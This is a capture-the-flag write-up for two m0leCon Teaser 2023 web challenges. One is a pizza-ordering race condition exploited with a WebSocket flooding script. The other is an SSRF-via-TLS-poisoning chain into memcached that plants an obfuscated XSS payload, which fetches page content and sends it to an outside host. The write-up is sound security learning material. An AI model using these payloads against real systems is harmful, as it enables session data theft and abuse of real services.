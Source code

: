 ```yaml
---
layout: post
title: m0leCon Teaser 2023 Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[m0leCon Teaser 2023](https://ctf.m0lecon.it/)  
[On CTFtime](https://ctftime.org/event/1898)

Overall good CTF with challenging original fun challenges.

On this page:

- [goldinospizza2](#goldinospizza2) - Web, websocket API, exploit race condition
- [Print template 2](#print-template-2)

## goldinospizza2

The challenge was released at about 2:40 AM BST as the "[~~patched~~ *improved* version of `goldinospizza`](https://discord.com/channels/1100159162794655904/1100159163096633447/1106757967291879506)", which was about over 8 hours into the CTF. It was just before I was planning to go to bed, but the challenge looked solvable😅.

The challenge was a web challenge with a website that allowed you to order pizza with a registered account. Most of the pizzas' prices were ranging between 6 and 15, but there was one pizza named "The flagship of pizzas" that costs 1,000,000. The flag will be shown if this pizza is successfully ordered. The initial account balance is 30.

Looking through the code, there are two websocket API functions that are interesting, one is `order`, and another one is `cancel`. The `order` function is used to order a pizza, and the `cancel` function is used to cancel an order and get refund.

The `order` function is implemented as follows:

```python
def order(data, ws, n):
    # Some checks on input omitted
    for item in data["orders"]:
        # Some checks on input omitted
        if type(item["quantity"]) is not int:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT INT")
        if item["quantity"] <= 0:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT VALID")
        product = db.session.execute(db.select(Product).filter(
            Product.id == item["product"])).scalars().one_or_none()
        if product is None:
            db.session.rollback()
            raise AssertionError("WE DON'T SELL THAT 🍕")
        quantity = item["quantity"]
        current_user.balance -= product.price * quantity
        if current_user.balance < 0:
            db.session.rollback()
            raise AssertionError("NO 🍕 STEALING ALLOWED!")
        db.session.add(Order(
            user_id=current_user.id,
            product_id=product.id,
            product_quantity=quantity,
            product_price=product.price
        ))
        if product.id == 0 and quantity > 0:
            ws.send(
                f"WOW you are SO rich! Here's a little extra with your golden special 🍕: {os.environ['FLAG']}")
    db.session.add(current_user)
    db.session.commit()
    return len(data["orders"]), {"ok": True, "balance": current_user.balance, "orders": _orders()}
```

In the code, I identified that there is a race condition that can be exploited to make total order larger than we have in the balance, and cancel the order to refund so we can have more balanced than we started with.

We can blast with multiple websocket requests to make order, and if the previous order has not been committed to the database, the next request is still checked against the old balance.

To make programming easier, I did scripting within the browser console within the context of the website. After some initial test, my balance increased to 66.00 from the initial 30.00.

![Balance increased to 66.00](/assets/image/m0lecon-teaser-2023-writeup/pizza-balance.png)

The script I used to blast the order is as follows:

```javascript
let message = {
    "request": "order",
    "orders": [{
        "product": 19,
        "quantity": 9792,
    }, ],
}
for (let i = 1; i < 20; i++) {
    const ws = new WebSocket(`wss://goldinospizza2.challs.m0lecon.it/sock`);
    ws.addEventListener("open", (event) => {
        ws.send(JSON.stringify(message))
    })
}
```

The connection will get killed after some numbers of requests. To scale this up, when I repeated the process, I increased the quantity of each of the order to the amount that I can afford with the balance. Then my available balance increased increases exponentially.

With enough balance, order the golden "The flagship of pizzas", get the flag and submitted at 4:00 AM BST. Enjoy the 🍕:

```
ptm{https://youtu.be/Uzryuem5NDc lets make pizza greater than zero again https://www.giallozafferano.com/recipes/Pizza-Margherita.html}
```

## Print template 2

A challenge with a web app under the misc category. IIRC the challenge was released after a while since the CTF started. It was a hard challenge, with team "organizers" first blooded it at 6:06 AM BST, and team "Kalmarunionen" submitted the flag half an hour before the CTF ends. I was not able to solve it myself. This writeup follows [Sam.ninja](https://sam.ninja/) and [pilvar](https://twitter.com/pilvar222)'s solution and payloads, which appears to be the [intended solution](https://discord.com/channels/1100159162794655904/1100159163096633453/1106990892780359771 "Just link to a Discord message that one of the challenge author Xato confirms it is the intended solution").

The webapp lets user import templates and "print" them by substitute the place holders in the template with data, and download the print.

![Import template](/assets/image/m0lecon-teaser-2023-writeup/import-template.png)

The user can also submit a "premium request" for review, which will be reviewed by the admin bot. Part of the template which renders the bot will visit is as follows:

```html
<img src=data:image/png;base64,<%= request.img %>>
<p class="my-3"><%= request.msg %></p>
```

As with `<%=` tag in EJS, the output will be HTML escaped, so it is not possible to inject script with `msg`, however it is possible to inject script in the `img` tag with `onerror` attribute.

On the web server, the file uploaded will be encoded in base64 and stored in memcached as the `img` value being used when rendering the template. With it rendered into base64, it is not possible to inject script into the `img` tag. However, if it is possible to control the content stored into memcached, it is possible to inject script into the `img` tag.

### SSRF via TLS Poisoning

We cannot make request from our machine directly, we will need to leverage SSRF to make request to memcached.

The "import template" function allows us to import template from a URL. The URL can be a http or https URL, and the server will make the request. The SSRF is exploited via TLS session resumption by injecting payload into session ID. As memcached commands are newline terminated and invalid input will be skipped, it is possible to inject command with new lines. [This TLS Poison PoC](https://github.com/jmdx/TLS-poison) is used to implement the exploit. More details about the exploit can be found in [the presentation at DEF CON Safe Mode](https://youtube.com/watch?v=qGpAJxfADjo).

With some modification to the PoC, a customised TLS server and DNS server for DNS rebinding is set up. Make HTTPS request to the TLS server, the TLS server will response a redirect with the TLS session ID being the payload. The client will be repeatedly redirected to the TLS server until the client makes another request to the DNS server, which will resolve to the target IP. As the TLS session ID is keyed by the hostname and port but not IP address, the session ID is reused for the request to the target IP. The request will be made to the target IP with the payload in the session ID.

It is shown in the image below that the payload is in the request made by the curl client to the localhost target.

![TLS Poisoning](/assets/image/m0lecon-teaser-2023-writeup/tls-poisoning.png)

### Send Payload into Memcached

When request the bot to review, the bot will visit every unvisited requests by the user where an UUID is generated and saved when the request is submitted. The UUID is also used as the key to store the request in memcached. However, the UUID is not revealed to the user. The UUID is generated with `Math.random`. The user IDs are also UUIDs generated with the same library, with knowing enough sequentially generated user IDs, it is possible to predict the future UUIDs.

In this writeup, I skipped the steps bruteforcing for the UUIDs, and just use the UUIDs that is printed to console when the request is submitted and the server generates it.

The script the bot executes is as follows:

```javascript
fetch("/")
    .then(x=>x.text())
    .then(x=>x.split("</h3>")[1].trim())
    .then(x=>fetch("http://x.cjxol.com/"+x))
```

The final payload for TLS session ID becomes the following:

```
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
```

The payload is repeated twice as the injection sometimes does not work as expected. The image tag sets ID to `deny` as the bot will click on the deny button which can cause a navigation before the script is executed. With image ID set as `deny`, the bot will not click on the deny button and click the image instead which does not cause a navigation.

In the `get-template` page, import template from the URL pointing to the TLS server. After a while, the web server will make request to Memcached and the payload will be stored in Memcached.

When querying Memcached directly, we can see the payload is stored in Memcached.

![Payload is in Memcached](/assets/image/m0lecon-teaser-2023-writeup/memcached.png)

When requested to review the requests, the bot will visit the page and execute the script. The flag is exfiltrated.

![Flag is exfiltrated](/assets/image/m0lecon-teaser-2023-writeup/flag.png)

The image is showing the fake flag for testing, and the real flag is:

```
ptm{why_an0ther_ch4ll_w1th_4_b0t??}
```
